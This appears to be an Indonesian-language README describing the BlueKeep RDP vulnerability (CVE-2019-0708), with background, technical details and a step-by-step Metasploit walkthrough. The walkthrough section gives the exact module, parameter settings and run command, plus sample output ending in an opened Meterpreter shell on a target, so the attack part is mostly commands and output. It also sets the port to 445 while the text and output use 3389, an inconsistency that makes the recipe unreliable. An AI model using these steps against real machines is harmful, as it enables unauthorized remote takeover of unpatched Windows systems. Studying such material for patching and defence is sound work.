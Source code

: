 # BlueKeep

## A. Apa itu BlueKeep?

[BlueKeep](https://en.wikipedia.org/wiki/BlueKeep) adalah kerentanan keamanan serius pada Remote Desktop Services (sebelumnya dikenal sebagai Terminal Services) di sistem operasi Windows. Kerentanan ini terdaftar dengan ID `CVE-2019-0708` dan memungkinkan Remote Code Execution (RCE) tanpa autentikasi melalui protokol `RDP` (Remote Desktop Protocol) pada port `3389`.

BlueKeep pertama kali ditemukan oleh [National Security Agency (NSA)](https://www.nsa.gov/) dan [UK’s National Cyber Security Centre (NCSC)](https://www.ncsc.gov.uk/). Microsoft merilis pembaruan darurat pada `Mei 2019`, termasuk untuk sistem yang sudah tidak mendapat dukungan resmi seperti `Windows XP`.

> BlueKeep memiliki kemampuan untuk menyebar sendiri (wormable), mirip dengan `EternalBlue`, dan dianggap sangat berbahaya karena bisa digunakan untuk serangan massal.

## B. Detail Teknis
- CVE ID: `CVE-2019-0708`
- Tanggal Rilis: `14 Mei 2019`
- Tipe: Remote Code Execution (RCE)
- Protokol: `RDP` (Remote Desktop Protocol)
- Komponen: `TermService`
- Platform: `Windows XP`, `Vista`, `7`, `Server 2003`, `Server 2008`, `Server 2008 R2`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `9.8` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `BlueKeep`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2019-0708](https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2019-0708)

## D. Langkah Penggunaan di Metasploit

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit BlueKeep:

   ```
   msf6 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] 192.168.1.50:3389 - Sent 237/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 238/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 239/250 MB. (Time elapsed: 00:00:47)
   [*] 192.168.1.50:3389 - Sent 240/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 241/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 242/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 243/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 244/250 MB. (Time elapsed: 00:00:48)
   [*] 192.168.1.50:3389 - Sent 245/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 246/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 247/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 248/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 249/250 MB. (Time elapsed: 00:00:49)
   [*] 192.168.1.50:3389 - Sent 250/250 MB. (Time elapsed: 00:00:50)
   [*] 192.168.1.50:3389 - Forcing the USE of FREE'd object ...
   [!] 192.168.1.50:3389 - <---------------- | Leaving Danger Zone | ---------------->
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 7 opened (192.168.1.42:4444 -> 192.168.1.50:49159) at 2025-05-15 22:11:42 +0700

   meterpreter >
   ```
   
   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.
